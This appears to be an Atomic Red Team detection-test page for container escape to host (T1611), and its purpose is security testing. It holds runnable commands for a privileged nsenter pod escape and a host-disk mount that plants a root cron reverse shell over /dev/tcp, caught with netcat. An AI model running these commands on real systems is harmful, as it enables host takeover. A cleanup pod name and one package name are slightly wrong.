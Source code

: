 ```yaml
---
tags: [T1611, atomic_test]
filename: "[[T1611 - Escape to Host]]"
---
```

# T1611 - Escape to Host

## Atomic Test #1 - Deploy container using nsenter container escape
In this escape `kubectl` is used to launch a new pod, with a container that has the host pids mapped into the container (`hostPID:true`). It uses the alpine linux container image. It runs with privilege on the host (`privileged:true`). When the container is launched the command `nsenter --mount=/proc/1/ns/mnt -- /bin/bash` is ran. Since the host processes have been mapped into the container, the container enters the host namespace, escaping the container.

Additional Details:
- https://twitter.com/mauilion/status/1129468485480751104
- https://securekubernetes.com/scenario_2_attack/

**Supported Platforms:** Containers


**auto_generated_guid:** 0b2f9520-a17a-4671-9dba-3bd034099fff






#### Attack Commands: Run with `sh`! 


```sh
kubectl --context kind-atomic-cluster run atomic-nsenter-escape-pod --restart=Never -ti --rm --image alpine --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

#### Cleanup Commands:
```sh
kubectl --context kind-atomic-cluster delete pod atomic-escape-pod
```



#### Dependencies:  Run with `sh`!
##### Description: Verify docker is installed.
##### Check Prereq Commands:
```sh
which docker
```
##### Get Prereq Commands:
```sh
if [ "" == "`which docker`" ]; then echo "Docker Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install docker ; elif [ -n "`which yum`" ]; then sudo yum -y install docker ; fi ; else echo "Docker installed"; fi
```
##### Description: Verify docker service is running.
##### Check Prereq Commands:
```sh
sudo systemctl status docker
```
##### Get Prereq Commands:
```sh
sudo systemctl start docker
```
##### Description: Verify kind is in the path.
##### Check Prereq Commands:
```sh
which kind
```
##### Get Prereq Commands:
```sh
curl -Lo ./kind https://kind.sigs.k8s.io/dl/v0.10.0/kind-linux-amd64
chmod +x ./kind
mv kind /usr/bin/kind
```
##### Description: Verify kind-atomic-cluster is created
##### Check Prereq Commands:
```sh
sudo kind get clusters
```
##### Get Prereq Commands:
```sh
sudo kind create cluster --name atomic-cluster
```
##### Description: Verify kubectl is in path
##### Check Prereq Commands:
```sh
which kubectl
```
##### Get Prereq Commands:
```sh
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x ./kubectl
mv kubectl /usr/bin/kubectl
```




<br/>
<br/>

## Atomic Test #2 - Mount host filesystem to escape privileged Docker container
This technique abuses privileged Docker containers to mount the host's filesystem and then create a cron job to launch a reverse shell as the host's superuser.
The container running the test needs be privileged.  It may take up to a minute for this to run due to how often crond triggers a job.
Dev note: the echo to create cron_filename is broken up to prevent localized execution of hostname and id by Powershell.

**Supported Platforms:** Containers


**auto_generated_guid:** 6c499943-b098-4bc6-8d38-0956fc182984





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| mount_device | Path to the device of the host's disk to mount | path | /dev/dm-0|
| mount_point | Path where the host filesystem will be mounted | path | /mnt/T1611.002|
| cron_path | Path on the host filesystem where cron jobs are stored | path | /etc/cron.d|
| cron_filename | Filename of the cron job in cron_path | string | T1611_002|
| listen_address | IP address to listen for callback from the host system. | string | `ifconfig eth0 | grep inet | awk '{print $2}'`|
| listen_port | TCP Port to listen on for callback from the host system. | integer | 4444|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
if [ ! -d #{mount_point} ]; then mkdir #{mount_point} ; mount #{mount_device} #{mount_point}; fi
echo -n "* * * * * root /bin/bash -c '/bin/bash -c echo \"\"; echo \"hello from host! " > #{mount_point}#{cron_path}/#{cron_filename}
echo -n "$" >> #{mount_point}#{cron_path}/#{cron_filename}
echo -n "(hostname) " >> #{mount_point}#{cron_path}/#{cron_filename}
echo -n "$" >> #{mount_point}#{cron_path}/#{cron_filename}
echo "(id)\" >& /dev/tcp/#{listen_address}/#{listen_port} 0>&1'" >> #{mount_point}#{cron_path}/#{cron_filename}
netcat -l -p #{listen_port} 2>&1
```

#### Cleanup Commands:
```sh
rm #{mount_point}#{cron_path}/#{cron_filename}
umount #{mount_point}
rmdir #{mount_point}
```



#### Dependencies:  Run with `sh`!
##### Description: Verify mount is installed.
##### Check Prereq Commands:
```sh
which mount
```
##### Get Prereq Commands:
```sh
if [ "" == "`which mount`" ]; then echo "mount Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install mount ; elif [ -n "`which yum`" ]; then sudo yum -y install mount ; fi ; else echo "mount installed"; fi
```
##### Description: Verify container is privileged.
##### Check Prereq Commands:
```sh
capsh --print | grep cap_sys_admin
```
##### Get Prereq Commands:
```sh
if [ "`capsh --print | grep cap_sys_admin`" == "" ]; then echo "Container not privileged.  Re-start container in insecure state.  Docker: run with --privileged flag.  Kubectl, add securityContext: privileged: true"; fi
```
##### Description: Verify mount device (/dev/dm-0) exists.
##### Check Prereq Commands:
```sh
ls #{mount_device}
```
##### Get Prereq Commands:
```sh
if [ ! -f #{mount_device} ]; then echo "Container not privileged or wrong device path.  Re-start container in insecure state.  Docker: run with --privileged flag.  Kubectl, add securityContext: privileged: true"; fi
```
##### Description: Netcat is installed.
##### Check Prereq Commands:
```sh
which netcat
```
##### Get Prereq Commands:
```sh
if [ "" == "`which netcat`" ]; then echo "netcat Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install netcat ; elif [ -n "`which yum`" ]; then sudo yum -y install netcat ; fi
```
##### Description: IP Address is known.
##### Check Prereq Commands:
```sh
if [ "#{listen_address}" != "" ]; then echo "Listen address set as #{listen_address}" ; fi
```
##### Get Prereq Commands:
```sh
if [ "" == "`which ifconfig`" ]; then echo "ifconfig Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install net=tools ; elif [ -n "`which yum`" ]; then sudo yum -y install net-tools ; fi
```




<br/>
